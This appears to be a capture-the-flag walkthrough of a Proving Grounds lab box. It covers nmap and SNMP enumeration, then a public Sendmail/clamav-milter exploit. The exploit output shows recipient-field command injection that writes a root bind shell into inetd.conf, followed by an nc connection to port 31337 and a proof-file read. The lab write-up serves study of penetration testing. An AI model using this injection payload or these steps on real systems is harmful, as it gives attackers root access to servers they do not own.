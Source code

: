 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# discovery

Starting with a simple `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -sV 192.168.59.42
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-08 15:56 EST
Nmap scan report for 192.168.59.42
Host is up (0.10s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
25/tcp  open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
80/tcp  open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp open  smux        Linux SNMP multiplexer
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.28 seconds
```

## quick checks
- standard ```ssh``` service on port 22
- `smtp` service on port 25
- website without useful content (no reasonable dirb results) on port 80
- `smb` on port 139/445
- `snmp` protocol on port 199

## checking `snmp` to gather more information about the target
```bash
$ snmp-check 192.168.59.42
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 192.168.59.42:161 using SNMPv1 and community 'public'

[*] System information:
 ...
 3781                  runnable              clamd                 /usr/local/sbin/clamd
  3783                  runnable              clamav-milter         /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
...
```
> `ClamAV` is installed and activated on the target
{: .prompt-info }

---

# exploitation
## looking for a `ClamAV` exploit
```bash
$ searchsploit clamav                      
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                  |  Path
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Clam Anti-Virus ClamAV 0.88.x - UPX Compressed PE File Heap Buffer Overflow                                                                     | linux/dos/28348.txt
ClamAV / UnRAR - .RAR Handling Remote Null Pointer Dereference                                                                                  | linux/remote/30291.txt
ClamAV 0.91.2 - libclamav MEW PE Buffer Overflow                                                                                                | linux/remote/4862.py
ClamAV < 0.102.0 - 'bytecode_vm' Code Execution                                                                                                 | linux/local/47687.py
ClamAV < 0.94.2 - JPEG Parsing Recursive Stack Overflow (PoC)                                                                                   | multiple/dos/7330.c
ClamAV Daemon 0.65 - UUEncoded Message Denial of Service                                                                                        | linux/dos/23667.txt
ClamAV Milter - Blackhole-Mode Remote Code Execution (Metasploit)                                                                               | linux/remote/16924.rb
ClamAV Milter 0.92.2 - Blackhole-Mode (Sendmail) Code Execution (Metasploit)                                                                    | multiple/remote/9913.rb
Sendmail with clamav-milter < 0.91.2 - Remote Command Execution                                                                                 | multiple/remote/4761.pl
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
> `Sendmail with clamav-milter < 0.91.2 - Remote Command Execution` seems to be worth a try (`multiple/remote/4761.pl`).
{: .prompt-info }

## execute the exploit
```bash
$ perl /usr/share/exploitdb/exploits/multiple/remote/4761.pl 192.168.59.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.59.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sat, 8 Jan 2022 20:59:57 -0500; (No UCE/UBE) logging access from: [192.168.49.59](FAIL)-[192.168.49.59]
250-localhost.localdomain Hello [192.168.49.59], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 2091xvno004050 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

If everything worked there should be an additional service on the target now.

## check if the exploit opened a service
```bash
$ nmap -Pn 192.168.59.42                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-08 16:01 EST
Nmap scan report for 192.168.59.42
Host is up (0.11s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
31337/tcp open  Elite
```
> Port `31337` is open now!
{: .prompt-info }

## connect to shell
```bash
$ nc 192.168.59.42 31337
whoami
root
```

> Bam! Root shell.
{: .prompt-info }

---

# post exploitation
```bash
$ nc 192.168.59.42 31337
whoami
root
cd /root
ls
dbootstrap_settings
install-report.template
proof.txt
cat proof.txt
3******************************5
```

Pwned! <@:-)
